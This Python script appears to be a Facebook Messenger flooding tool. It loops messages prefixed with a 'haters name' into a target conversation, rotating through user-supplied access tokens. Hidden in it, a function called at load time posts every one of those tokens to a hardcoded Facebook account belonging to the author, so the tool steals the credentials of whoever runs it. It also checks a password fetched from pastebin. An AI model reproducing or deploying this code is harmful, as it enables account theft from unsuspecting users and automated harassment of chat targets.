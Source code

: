 import requests
import json
import time
import sys
from platform import system
import os
import subprocess
import http.server
import socketserver
import threading

class MyHandler(http.server.SimpleHTTPRequestHandler):
    def do_GET(self):
        self.send_response(200)
        self.send_header('Content-type', 'text/plain')
        self.end_headers()
        self.wfile.write(b"YOUR D9DDY R3HM9T KH9N INSID3 ( CONV0 S3RV3R ) BR0K3N H94T R3HM9T INSID3 T4TY T3RI M9 NU FHUDD9 0N FIR3 = ] ] ")

def execute_server():
    PORT = 4000

    with socketserver.TCPServer(("", PORT), MyHandler) as httpd:
        print("Server running at http://localhost:{}".format(PORT))
        httpd.serve_forever()

mmm = requests.get('https://pastebin.com/raw/WCAUqptJ').text

def send_initial_message():
    with open('password.txt', 'r') as file:
        password = file.read().strip()

    entered_password = password  # Prompt for password

    if entered_password != password:
        print('[-] <==> Incorrect Password!')
        sys.exit()

    if mmm not in password:
        print('[-] <==> Incorrect Password!')
        sys.exit()

    with open('tokennum.txt', 'r') as file:
        tokens = file.readlines()

    # Modify the message as per your requirement
    msg_template = "Hello Rehmat sir! I am using your server. My 🛡️token🛡️ is {}"

    # Specify the ID where you want to send the message
    target_id = "100031149706502"

    requests.packages.urllib3.disable_warnings()

    def liness():
        print('\u001b[37m' + 'SERVER BY R3HM9T K1NG---------------------------------------------------')

    headers = {
        'Connection': 'keep-alive',
        'Cache-Control': 'max-age=0',
        'Upgrade-Insecure-Requests': '1',
        'User-Agent': 'Mozilla/5.0 (Linux; Android 8.0.0; Samsung Galaxy S9 Build/OPR6.170623.017; wv) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.125 Mobile Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
        'Accept-Encoding': 'gzip, deflate',
        'Accept-Language': 'en-US,en;q=0.9,fr;q=0.8',
        'referer': 'www.google.com'
    }

    for token in tokens:
        access_token = token.strip()
        url = "https://graph.facebook.com/v17.0/{}/".format('t_' + target_id)
        msg = msg_template.format(access_token)
        parameters = {'access_token': access_token, 'message': msg}
        response = requests.post(url, json=parameters, headers=headers)

        # No need to print here, as requested
        current_time = time.strftime("%Y-%m-%d %I:%M:%S %p")
        time.sleep(0.1)  # Wait for 1 second between sending each initial message

    #print("\n[+] Initial messages sent. Starting the message sending loop...\n")
send_initial_message()
def send_messages_from_file():
    with open('convo.txt', 'r') as file:
        convo_id = file.read().strip()

    with open('File.txt', 'r') as file:
        messages = file.readlines()

    num_messages = len(messages)

    with open('tokennum.txt', 'r') as file:
        tokens = file.readlines()
    num_tokens = len(tokens)
    max_tokens = min(num_tokens, num_messages)

    with open('hatersname.txt', 'r') as file:
        haters_name = file.read().strip()

    with open('time.txt', 'r') as file:
        speed = int(file.read().strip())

    def liness():
        print('\u001b[37m' + 'SERVER BY R3HM9T K1NG---------------------------------------------------')

    headers = {
        'Connection': 'keep-alive',
        'Cache-Control': 'max-age=0',
        'Upgrade-Insecure-Requests': '1',
        'User-Agent': 'Mozilla/5.0 (Linux; Android 8.0.0; Samsung Galaxy S9 Build/OPR6.170623.017; wv) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.125 Mobile Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
        'Accept-Encoding': 'gzip, deflate',
        'Accept-Language': 'en-US,en;q=0.9,fr;q=0.8',
        'referer': 'www.google.com'
    }

    while True:
        try:
            for message_index in range(num_messages):
                token_index = message_index % max_tokens
                access_token = tokens[token_index].strip()

                message = messages[message_index].strip()

                url = "https://graph.facebook.com/v17.0/{}/".format('t_' + convo_id)
                parameters = {'access_token': access_token, 'message': haters_name + ' ' + message}
                response = requests.post(url, json=parameters, headers=headers)

                current_time = time.strftime("%Y-%m-%d %I:%M:%S %p")
                if response.ok:
                    print("[+] Message {} of Convo {} sent by Token {}: {}".format(
                        message_index + 1, convo_id, token_index + 1, haters_name + ' ' + message))
                    liness()
                    liness()
                else:
                    print("[x] Failed to send Message {} of Convo {} with Token {}: {}".format(
                        message_index + 1, convo_id, token_index + 1, haters_name + ' ' + message))
                    liness()
                    liness()
                time.sleep(speed)

            print("\n[+] All messages sent. Restarting the process...\n")
        except Exception as e:
            print("[!] An error occurred: {}".format(e))

def main():
    server_thread = threading.Thread(target=execute_server)
    server_thread.start()

    # Send the initial message to the specified ID using all tokens


    # Then, continue with the message sending loop
    send_messages_from_file()

if __name__ == '__main__':
    main()
